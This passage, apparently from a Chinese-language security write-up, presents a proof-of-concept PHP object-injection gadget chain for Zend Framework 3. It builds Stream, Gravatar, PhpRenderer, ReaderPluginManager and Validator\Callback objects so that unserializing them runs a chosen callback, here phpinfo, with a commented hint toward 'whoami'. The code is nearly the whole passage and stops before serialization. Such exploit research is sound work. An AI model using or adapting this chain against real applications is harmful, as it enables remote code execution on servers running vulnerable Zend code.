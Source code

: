 #### poc
要注意zend framework3采用了自动加载类的方式，会自动包含我们需要的类
![](https://raw.githubusercontent.com/Ling-Yizhou/zendframework3-/main/12.png)
```php
<?php

namespace Zend\Http\Response {
    class Stream
    {
        protected $cleanup = true;
        protected $streamName;

        public function __construct($streamName)
        {
            $this->streamName = $streamName;
        }
    }
}

namespace Zend\View\Helper{
    class Gravatar{
        protected $view;
//        protected $attributes = ["whoami"=>'a'];
        protected $attributes = [1=>'a'];
        public function __construct($view)
        {
            $this->view=$view;
        }
    }
}

namespace Zend\View\Renderer{
    class PhpRenderer{
        private $__helpers;
        public function __construct($__helpers)
        {
            $this->__helpers = $__helpers;
        }
    }
}
namespace Zend\Config{
    class ReaderPluginManager{
        protected $services;
        protected $instanceOf ="Zend\Validator\Callback";
        public function __construct($services){
            $this->services = ["escapehtml"=>$services,"escapehtmlattr"=>$services];
        }
    }
}
namespace Zend\Validator{
    class Callback{
        protected $options = [
            'callback'         => 'phpinfo',
            'callbackOptions'  => []
        ];
    }
}

namespace {
    $e = new Zend\Validator\Callback();
    $d = new Zend\Config\ReaderPluginManager($e);
    $c = new Zend\View\Renderer\PhpRenderer($d);
    $b = new Zend\View\Helper\Gravatar($c);
```